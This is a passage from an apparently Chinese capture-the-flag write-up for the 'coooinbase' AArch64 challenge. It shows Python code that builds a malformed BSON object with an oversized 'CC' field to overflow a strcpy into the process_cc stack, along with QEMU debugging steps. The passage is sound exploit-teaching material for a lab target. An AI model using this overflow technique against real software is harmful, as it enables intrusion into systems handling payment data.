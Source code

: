 bson数据有几个重要结构：<br>
1.开始的4个byte，表示整个bson数据的总长度；<br>
2.`\x10`、`\x02`表示这个key对应存放的是num、str类型的数据；<br>
3.key和value之间用`\x00`分隔；<br>
4.str类型的数据，有一个额外4个byte的数值指示value的长度。

[![](https://p1.ssl.qhimg.com/t01d08bf05774703645.png)](https://p1.ssl.qhimg.com/t01d08bf05774703645.png)

现在便可构造bson数据结构，bson结构最后有个`\x00`，需要先去掉。然后拼接上`CC`结构，`CC`长度为`字符串长度+1`，最后1 byte为`\x00`。另外，bson结构结束符为`\x00`，需要在最后补上。注意，`CVC`是信用卡的后三码，这里指定为三位数字。

```
obj = `{`
    'CVC': 111,
    'MON': 11,
    'YR': 2021
`}`
bs = bson.dumps(obj)

bs = bs[:-1]
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x17)
bs += b'C'*22 + b'\x00'
bs += b'\x00'

#print(hexdump(bs))
print(b64e(bs)+' ')
```



## Debug

编辑`x.sh`，增加`-s -S`参数，开启调试接口并在内核启动时挂起

```
qemu-system-aarch64 -s -S -machine virt -cpu cortex-a57 -smp 1 -m 64M -nographic -serial mon:stdio -monitor none -kernel coooinbase.bin -drive if=pflash,format=raw,file=rootfs.img,unit=1,readonly
```

现将`AAAAA...`串的base64存到payload文件，执行`./x.sh &lt; payload`喂入数据

[![](https://p5.ssl.qhimg.com/t014bfa1bf36ab00857.png)](https://p5.ssl.qhimg.com/t014bfa1bf36ab00857.png)

userland程序装载地址为`0x0`

[![](https://p4.ssl.qhimg.com/t01c2a6c5eb3f20eb05.png)](https://p4.ssl.qhimg.com/t01c2a6c5eb3f20eb05.png)

喂入构造好的bson base64数据`python solve.py | x.sh`，断在strcpy处。现在程序将`AAAAAAA...`串拷贝到process_cc栈上

[![](https://p2.ssl.qhimg.com/t012dfa1c0a6923ce6a.png)](https://p2.ssl.qhimg.com/t012dfa1c0a6923ce6a.png)
